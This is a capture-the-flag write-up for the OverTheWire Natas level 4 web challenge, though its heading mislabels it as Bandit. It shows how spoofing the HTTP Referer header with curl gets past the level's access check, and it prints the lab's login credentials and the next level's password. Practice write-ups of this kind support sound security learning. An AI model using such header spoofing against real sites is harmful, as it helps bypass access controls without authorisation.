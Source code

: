 # BANDIT LEVEL 4

```
http://overthewire.org/wargames/natas/natas4.html
```

```
Username: natas4
Password: Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ
URL:      http://natas4.natas.labs.overthewire.org
```

<img src='index.jpg' width=500px>

### SOLUTION

We are greeted with the following message..

```
Access disallowed. You are visiting from "" while authorized users should come only from
"http://natas5.natas.labs.overthewire.org/" 
```

.. feels like a cookie or a header is being used to supply this location. Let's inspect..

```
GET /index.php HTTP/1.1
Host: natas4.natas.labs.overthewire.org
Connection: keep-alive
Authorization: Basic bmF0YXM0Olo5dGtSa1dtcHQ5UXI3WHJSNWpXUmtnT1U5MDFzd0Va
Upgrade-Insecure-Requests: 1
DNT: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://natas4.natas.labs.overthewire.org/index.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: __cfduid=d773051550db82f7a8a4d2154d95cf23b1539528567; __utmc=176859643; __utmz=176859643.1540523077.10.2.utmcsr=google|utmccn=(organic)|utmcmd=organic|utmctr=(not%20provided); __utma=176859643.380347011.1539528564.1540653662.1540658153.12
```

We see there is a REFERER request header that looks promising.

```
https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referer

The `Referer` request header contains the address of the previous web page from which a 
link to the currently requested page was followed. The `Referer` header allows servers to
identify where people are visiting them from and may use that data for analytics, logging,
or optimized caching, for example.
```

So let's try modifying this value before sending it onto the server..

```
$ curl 'http://natas4.natas.labs.overthewire.org/index.php' -H 'Authorization: Basic bmF0YXM0Olo5dGtSa1dtcHQ5UXI3WHJSNWpXUmtnT1U5MDFzd0Va' -H 'Referer: http://natas5.natas.labs.overthewire.org/'
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas4", "pass": "Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ" };</script></head>
<body>
<h1>natas4</h1>
<div id="content">

Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
</body>
</html>
```

Using the Chrome extension `Modify Headers`, we can achieve the same effect within the
browser..

<img src='chrome-mod-header.jpg' width=500px>
